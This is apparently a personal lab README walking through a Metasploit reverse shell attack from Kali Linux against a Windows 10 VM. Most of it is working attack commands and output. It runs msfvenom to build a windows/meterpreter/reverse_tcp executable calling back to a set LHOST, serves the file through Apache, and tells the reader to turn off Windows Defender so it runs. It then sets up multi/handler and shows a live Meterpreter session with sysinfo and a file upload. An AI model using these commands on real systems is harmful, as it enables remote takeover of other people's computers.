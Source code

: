 ## shortcut on creating revershell with meterpreter/msf work in progress##

##launch terminal##
# run the following to escalate to root#
~$ sudo su

# run the following to create msfvenom reverse shell payload *.exe and place it into your webserver directory #
┌──(root💀kali )-[/g]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > /var/www/html/fun.exe  


# the wares have been created run the following to start the appache webserver #
┌──(root💀kali )-[/g]
└─# service apache2 start


##### Go to Windows machine ######

### Turn off Windows defender, allow the virus to come thru because it will be detected##

 # Launch browser in windows. download and run executable msfvenom created #
open http://kaliipaddress/fun.exe 

# windows target is ready for expoiting and post exploitation ##

# Launch metasploit #

┌──(root💀kali)-[/g]
└─# msfconsole  


## run the following in metasploit, throw in an options or help command here and there ##

msf6 > use multi/handler

[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Sending stage (175174 bytes) to <windowsip>
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.3:2352 ) at 2022-02-28 00:55:06 -0500

# you have now spawned reverse shell with meterpreter # 

meterpreter > sysinfo <br>
 
Computer        : DESKTOP-WINDERS10 <br>
OS              : Windows 10 (10.0 Build 19044). <br>
Architecture    : x64 <br>
System Language : en_US <br>
Domain          : WORKGROUP <br>
Logged On Users : 2
Meterpreter     : x86/windows<br>

# open another terminal create a readme.txt to upload to windows computer in meterpreter #<br>
<br>
┌──(root💀kali)-[/g]
└─# nano readme.txt  <-- paste in the msfbanner that launched at the beginning, (I used a cow and ninja)
<br>
# Go back to meterpreter #
<br>
> meterpreter > upload readme.txt<br>
[*] uploading  : /g/readme.txt -> readme.txt<br>
[*] Uploaded 1.39 KiB of 1.39 KiB (100.0%): /g/readme.txt -> readme.txt<br>
[*] uploaded   : /g/readme.txt -> readme.txt<br>
meterpreter > ls<br>
> Listing: C:\Users\Gregster\Downloads<br>

## vefify that the file is there list and then look at it in windows machine, change directories in meterpreter, stop apache2 call it a night tbc... #<br>
<br>
┌──(root💀kali)-[/g]
└─# systemctl stop apache2  
<br>
┌──(root💀kali)-[/g]
└─# nmap -p80 localhost          
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 01:40 EST<br>
Nmap scan report for localhost (127.0.0.1)<br>
Host is up (0.000086s latency).<br>
Other addresses for localhost (not scanned): ::1<br>

PORT   STATE  SERVICE<br>
80/tcp closed http<br>

# meterpreter<br>
Metasploit/Meterpreter reverse shell from Kali to Windows VM<br>
